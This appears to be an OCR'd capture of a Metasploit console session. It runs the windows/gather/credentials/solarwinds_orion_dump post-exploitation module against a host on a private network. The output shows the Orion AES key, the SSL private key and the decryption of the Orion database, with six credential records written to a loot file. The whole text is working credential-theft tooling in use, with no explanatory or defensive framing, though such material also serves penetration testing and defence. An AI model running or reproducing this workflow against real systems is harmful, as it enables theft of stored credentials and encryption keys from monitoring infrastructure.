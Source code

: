 ```
[+] Encrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
[*] Post module execution completed
msf post(windows/gather/credentials/solarwinds_orion_dump) > set CSV_FILE /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
CSV_FILE => /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
msf post(windows/gather/credentials/solarwinds_orion_dump) > decrypt 

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[*] Performing decryption of SolarWinds Orion SQL database
[+] 10 rows loaded, 6 unique CredentialIDs
[*] Process SolarWinds Orion DB ...
[+] 10 rows processed
[*] 10 rows recovered: 6 plaintext, 4 decrypted (0 blank)
[*] 10 rows written (0 blank rows withheld)
[+] 6 unique CredentialID records recovered
[+] Decrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118091959_default_192.168.101.125_solarwinds_orion_687493.txt
[*] Post module execution completed
msf post(windows/gather/credentials/solarwinds_orion_dump) >
```
